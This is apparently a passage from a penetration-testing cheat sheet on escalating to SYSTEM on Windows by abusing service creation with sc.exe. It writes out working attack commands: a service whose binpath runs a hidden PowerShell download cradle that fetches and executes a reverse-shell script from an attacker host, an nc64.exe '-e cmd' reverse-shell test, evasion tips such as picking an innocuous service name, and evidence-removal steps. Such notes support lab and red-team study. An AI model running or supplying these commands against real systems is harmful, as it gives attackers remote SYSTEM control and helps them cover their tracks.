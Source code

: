 On the target, remove evidence and restore service behavior when done:

```cmd
# kill reverse shell binary
taskkill /IM nc64.exe /F

# if you created a service
sc.exe stop pwnsvc
sc.exe delete pwnsvc

# if you modified a built-in service, revert its binpath (example for VSS)
sc.exe config VSS binpath= "C:\Windows\system32\vssvc.exe"

# delete the uploaded binary
del C:\ProgramData\nc64.exe
```

---

## PowerShell alternative (when `nc` is blocked)

Host a simple PS script `ps_rev.ps1` with a PowerShell reverse shell and run the service wrapped with `cmd.exe /c powershell ...`:

```cmd
sc.exe create pwnsvc binpath= "C:\Windows\System32\cmd.exe /c powershell -NoP -NonI -W Hidden -Exec Bypass -Command \"IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.6/ps_rev.ps1')\"" start= demand
sc.exe start pwnsvc
```

Note: quoting gets tricky — copy/paste exact string and test locally first.

---

## Notes / gotchas

- Shell history expansion may mangle special characters if you copy commands into PowerShell/CMD — paste carefully.
    
- If you use `sc create`, pick an innocuous service name and only create when needed.
    
- Always validate the binary works by running it manually first (e.g., `C:\ProgramData\nc64.exe -e cmd <attacker> <port>`) if you can.
    

---

## TL;DR

Use `sc.exe` to make SCM launch a command that spawns your reverse shell as a child process. SCM will often report `1053` (service failed to behave like a real service) — that’s expected. The spawned child frequently lives on as SYSTEM and connects back to your listener.

---
